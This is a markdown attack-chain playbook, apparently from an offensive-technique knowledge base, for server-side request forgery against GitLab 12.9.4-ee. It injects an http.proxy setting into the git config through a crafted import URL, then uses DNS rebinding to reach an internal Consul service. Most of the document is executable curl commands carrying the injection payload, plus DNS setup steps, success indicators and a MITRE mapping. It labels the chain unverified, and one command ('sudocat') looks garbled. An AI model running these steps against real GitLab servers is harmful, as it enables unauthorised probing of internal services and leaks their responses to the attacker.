

# SSRF via Git Config Injection in GitLab Repository Import

Multi-stage attack chain demonstrating exploitation of GitLab's gitaly component to inject git config settings like http.proxy via a crafted repository import URL, leading to SSRF against internal services such as Consul on port 8500. The attack involves DNS manipulation to redirect proxy traffic to localhost, enabling leakage of internal status codes and error bodies.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/proxy-py]]
- [[tools/jq]]

### Target Environment

- GitLab 12.9.4-ee on Linux
- Services: Gitaly, GitLab Shell 12.0.0, Consul on port 8500
- Tech stack: Ruby 2.6.5, Git 2.24.2, PostgreSQL 10.12, Redis 5.0.7, Sidekiq 5.2.7
- Network access: API access to GitLab with bearer token

### Initial Access Requirements

- Valid GitLab API token ($TOKEN)
- Control over DNS for a domain (e.g., aw.rs)
- Local access to start proxy on target port (8500)

## Detailed Attack Procedures

### Step 1: DNS Setup for Proxy Redirection
procedure: [[procedures/Set-Up-DNS-for-Proxy-Redirection]]

**Objective**: Establish a DNS record that can be quickly updated to redirect traffic to localhost, enabling proxy hijacking.

**Instructions**: Configure a DNS entry for a domain like proxy.aw.rs with a short TTL (e.g., 60 seconds) to allow rapid changes during the attack.

**Expected Output**: DNS record created, verifiable via nslookup or dig.

**Success Indicators**:
- DNS resolves to initial value
- Short TTL confirmed

### Step 2: Start Local Proxy Server for SSRF Simulation
procedure: [[procedures/Start-Local-Proxy-Server-for-SSRF-Simulation]]

**Objective**: Run a local server on the internal service port to capture and simulate SSRF requests.

**Instructions**: Launch [[tools/proxy-py]] listening on port 8500 to return 200 OK responses, mimicking the targeted internal service.

**Expected Output**: Server running and listening on 127.0.0.1:8500.

**Success Indicators**:
- Port 8500 bound successfully
- Test curl to localhost:8500 returns 200

### Step 3: Create Project with Malicious Import URL
procedure: [[procedures/Create-Project-with-Malicious-Import-URL]]

**Objective**: Inject http.proxy config into the git clone command via a crafted import URL during project creation.

**Instructions**: Use the GitLab API to create a project with import_url=http://user@google.com/.proxy=http://proxy.aw.rs:8500, which sets the proxy in .git/config.

Execute [[commands/curl-create-project-with-injection]]:

```bash
curl -H "Authorization: Bearer $TOKEN" -v -XPOST 'http://gitlab-vm.local/api/v4/projects?import_url=http://user@google.com/.proxy=http://proxy.aw.rs:8500&name=proxy4'
```

Verify injection with [[commands/sudocat-git-config]]:

```bash
sudocat /var/opt/gitlab/git-data/repositories/@hashed/fc/56/fc56dbc6d4652b315b86b71c8d688c1ccdea9c5f1fd07763d2659fde2e2fc49a.git/config
```

**Expected Output**: Project created (ID e.g., 204), config shows [http "http://google.com/"] proxy = http://proxy.aw.rs:8500.extraHeader=Authorization: Basic dXNlcg==.

**Success Indicators**:
- Project API response 201
- Config file shows injected proxy

### Step 4: Update DNS to Point to Localhost
procedure: [[procedures/Update-DNS-to-Point-to-Localhost]]

**Objective**: Redirect the injected proxy domain to localhost to route git clone traffic internally.

**Instructions**: Update the DNS record for proxy.aw.rs to 127.0.0.1 and wait for propagation (short TTL ensures quick effect).

**Expected Output**: DNS now resolves proxy.aw.rs to 127.0.0.1.

**Success Indicators**:
- dig proxy.aw.rs shows 127.0.0.1
- Propagation delay minimal (<1 min)

### Step 5: Add Mirror to Trigger SSRF
procedure: [[procedures/Add-Mirror-to-Trigger-SSRF]]

**Objective**: Trigger the git clone through the injected proxy by adding a mirror, causing SSRF to the internal endpoint.

**Instructions**: Update the project via API to enable mirroring with a URL that appends ? to avoid path issues, routing through the proxy to localhost:8500/v1/config.

Execute [[commands/curl-add-mirror-trigger]]:

```bash
curl -H "Authorization: Bearer $TOKEN" -v -XPUT 'http://gitlab-vm.local/api/v4/projects/204?mirror=true&import_url=http://google.com/v1/config?'
```

**Expected Output**: Mirror enabled, git clone attempted via proxy.

**Success Indicators**:
- API response 200
- Proxy server logs incoming request

### Step 6: Check Import Status for SSRF Result
procedure: [[procedures/Check-Import-Status-for-SSRF-Result]]

**Objective**: Observe the SSRF outcome in the import error, leaking internal service responses.

**Instructions**: Query the project API and extract the import_error field using [[tools/jq]].

Execute [[commands/curl-check-import-error]]:

```bash
curl -H "Authorization: Bearer $TOKEN" -v 'http://gitlab-vm.local/api/v4/projects/204' | jq .import_error
```

Compare with direct internal access using [[commands/curl-local-consul]]:

```bash
curl -v localhost:8500/v1/config
```

**Expected Output**: Error like "Fetching remote upstream failed: remote: method GET not allowed\nfatal: unable to access 'http://google.com/v1/config?/': The requested URL returned error: 405\n", matching Consul's 405 response.

**Success Indicators**:
- import_error contains internal service body (e.g., 'method GET not allowed')
- Status code 405 leaked

## Attack Chain Summary

### Key Achievements

1. Injected git http.proxy config via repository import URL
2. Redirected DNS to enable SSRF to localhost:8500
3. Accessed internal Consul service, leaking error details
4. Demonstrated potential for broader internal reconnaissance via proxies (socks4/socks5)

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
